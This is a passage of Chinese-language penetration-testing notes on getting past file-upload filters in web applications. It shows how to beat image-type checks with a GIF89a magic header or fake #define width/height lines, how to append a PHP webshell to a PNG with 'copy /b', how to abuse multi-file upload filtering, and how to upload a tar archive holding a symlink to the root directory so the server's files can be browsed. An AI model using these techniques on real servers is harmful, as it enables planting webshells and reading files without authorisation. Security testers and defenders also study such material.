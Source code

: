 

### 5.4 exif_imagetype()

该函数为获取图片的类型，常用于检测上传文件的类型

（1）可以使用在文件头添加魔术字节GIF89a即可绕过
（2）使用copy命令将木马放在一个正常文件之后

```sh
在cmd中输入命令 copy /b test.png +muma.php ccc.png //伪造头部

其中test.png为 原始图片 ，此命令将 test.png 和muma.php 合成，重新生成ccc.png
```





### 5.5 get_imagesize()

该函数为获取图片的长宽，常用于检测上传文件的类型
（1）可以在文件之前添加

```
#define width 1337                          
#define height 1337
```

即可绕过



### 5.6 二次渲染

https://github.com/hxer/imagecreatefrom-/tree/master/
https://www.freebuf.com/articles/web/54086.html
http://www.vuln.cn/6411



## 6. 多文件上传

当服务器支持多文件上传，但只对上传的第一个进行过滤时，可以一次上传多个文件进行绕过



## 7. 文件上传解压

### 7.1 tar压缩包

linux环境



```
ln -s / 1.jpg 会在当前目录下生成一个名为1.jpg的软链接
tar cf 1.tar 1.jpg
上传到服务器，访问1.jpg，就可以在服务器中漫游了
也可以利用这个办法绕过php_flag engine off
```

